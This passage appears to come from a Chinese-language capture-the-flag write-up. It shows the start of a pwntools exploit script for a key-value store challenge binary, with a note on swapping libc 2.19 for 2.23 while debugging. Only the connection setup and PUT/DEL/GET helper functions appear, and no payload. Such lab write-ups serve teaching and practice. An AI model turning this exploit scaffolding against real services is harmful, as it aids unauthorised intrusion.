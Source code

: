 ### exploit

由于原 libc 为 2.19 版本，加载有一些奇怪的问题，较为麻烦，而本题没有用到 2.19 独有的特性，所以我采用了 2.23 的 libc 进行调试，版本为 ubuntu10。

```python
#! /usr/bin/env python2
# -*- coding: utf-8 -*-
# vim:fenc=utf-8

import sys
import os
import os.path
from pwn import *
context(os='linux', arch='amd64', log_level='debug')

if len(sys.argv) > 2:
    DEBUG = 0
    HOST = sys.argv[1]
    PORT = int(sys.argv[2])

    p = remote(HOST, PORT)
else:
    DEBUG = 1
    if len(sys.argv) == 2:
        PATH = sys.argv[1]

    p = process(PATH)


libc = ELF('/lib/x86_64-linux-gnu/libc.so.6') # ubuntu 16.04

def cmd(command_num):
    p.recvuntil('command:')
    p.sendline(str(command_num))


def put(key, size, data):
    cmd('PUT')
    p.recvuntil('key:')
    p.sendline(key)

    p.recvuntil('size:')
    p.sendline(str(size))
    p.recvuntil('data:')
    if len(data) < size:
        p.send(data.ljust(size, '\x00'))
    else:
        p.send(data)


def delete(key):
    cmd('DEL')
    p.recvuntil('key:')
    p.sendline(key)


def get(key):
    cmd('GET')
    p.recvuntil('key:')
    p.sendline(key)
    p.recvuntil('[')
    num = int(p.recvuntil(' bytes').strip(' bytes'))
    p.recvuntil(':\n')
    return p.recv(num)
```